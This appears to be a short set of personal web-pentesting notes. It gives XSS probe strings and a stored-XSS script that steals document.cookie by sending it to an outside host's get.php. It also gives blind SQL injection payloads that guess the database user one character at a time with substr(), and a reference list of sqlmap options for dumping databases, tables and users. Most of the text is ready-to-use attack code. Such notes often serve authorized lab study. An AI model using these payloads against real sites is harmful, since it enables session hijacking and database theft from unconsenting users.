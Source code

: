 find a user input field:
```bash
# try to execute a html command like 
<h1> teste </h1>

# try to execute JS command like 
<script>alert('XSS');</script>
```

payload to steal cookies: XSS Stored
we need to have a page to send the cookies, in this case we have get.php
but in  real scenario we gottta have a page set up to be able to do that.

```bash
<script>
var i = new Image();
i.src="http://192.168.99.11/get.php?cookies="+document.cookie; 
</script>
```

after that, we go to the ip 99.11 and get the file with the stolen cookie.


## MYSQL INJECTION

```bash
' or substr(user(), 1, 1) = 'a
' or substr(user(), 1, 1) = 'b
```

after finding the first letter

```bash
' or substr(user(), 2, 1) = 'a
```

- go to the second one.

- guessing the current user.


## SQLMap

```bash
sqlmap -u <URL> -p <injection parameter> [options]
```

example:

```bash
sqlmap -u 'vulnerable url' -p id --technique=U #using UNION
```

with POST:

```bash
sqlmap -u 'url' --data <post string> -p parameter [options] # u can get the post string with burp
```

```bash
-b - banner
--tables
--current-db <name>
--columns
--dump
-v3 --fresh-queries # to see what payload the sqlmap used
--dbs # to see the databases availables
--users # to see the users
-D # set the database of your choice
-T # set the tables of your choice
-C # set column of your choice
-r # request, we can get from burp
```